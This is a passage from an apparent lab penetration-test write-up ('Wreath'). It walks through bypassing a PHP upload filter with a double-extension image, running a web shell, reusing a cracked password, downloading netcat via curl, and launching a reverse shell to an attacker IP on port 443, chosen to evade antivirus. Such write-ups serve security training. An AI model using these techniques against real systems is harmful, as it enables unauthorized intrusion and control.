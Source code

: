      reports Wreath image60 png 

The explode function splits a string into an array based on a specified parameter  In the code  it is set to split based on the period character and grabs the string at index one  note that this is the second element in the array  as the first element is at index zero   It then compares this string with one of the allowed extensions  The problem with this is that upon uploading a file called reverse shell jpg php  the code will split the file as follows 

  reverse shell   jpg   php  

Then  the string in the first index  jpg  will be compared  Thus  we have bypassed the first filter  The second filter  i e  the image size check  can also be bypassed  11    ftnt11   We can add a comment to an image with malicious php code  and if the server executes our image as php  then our malicious code will work as a web shell 

     reports Wreath image56 png 

A basic HTTP authentication is required to access the  resources directory  but we cracked Thomas s hash  before   h wzvkxqwdhgz4   so it is likely that Thomas reused this password for authentication to his web server  We can guess that the username is Thomas  or other variations of his name  and we get into the upload page  it turns out that the username was indeed Thomas  

    Reverse Shell

     reports Wreath image3 png 

I then uploaded the malicious image file  0xd4y image jpg php  

     reports Wreath image51 png 

Visiting the uploaded script on resources uploads 0xd4y image jpg php reveals that it got successfully uploaded  To test if the image successfully is getting executed as php  I gave the command of whoami to the parameter cmd 

     reports Wreath image63 png 

And the php web shell works  The next step is to get a reverse shell  After identifying the target as a 64 bit machine by using systeminfo  I uploaded a 64bit netcat binary  12    ftnt12  and called it 0xd4y nc exe  I then set up an HTTP server on my local box with python and downloaded the binary onto the system with curl  To get a reverse shell  I used a simple nc reverse shell payload  powershell exe 20C xampphtdocsresourcesuploads0xd4y nc exe 2010 50 112 6 20443 20 e 20cmd exe

     reports Wreath image30 png 

Note how I used port 443 for the reverse shell  as this port tends to be treated as unsuspicious by AV  In contrast  using port 1337 or port 9001 seems very suspicious  but in this case it works anyways  

    Privilege Escalation to System

     Searching for Misconfigurations

Enumerating the privileges of our compromised user  we don t see anything too out of the ordinary 

     reports Wreath image72 png 

However  this user does have the SeImpersonatePrivilege which could potentially be vulnerable to exploits such as Juicy Potato  13    ftnt13   note that even though this is a 2019 Windows system rather than 2016  there have been some exploitations of this privilege in later versions  14    ftnt14     
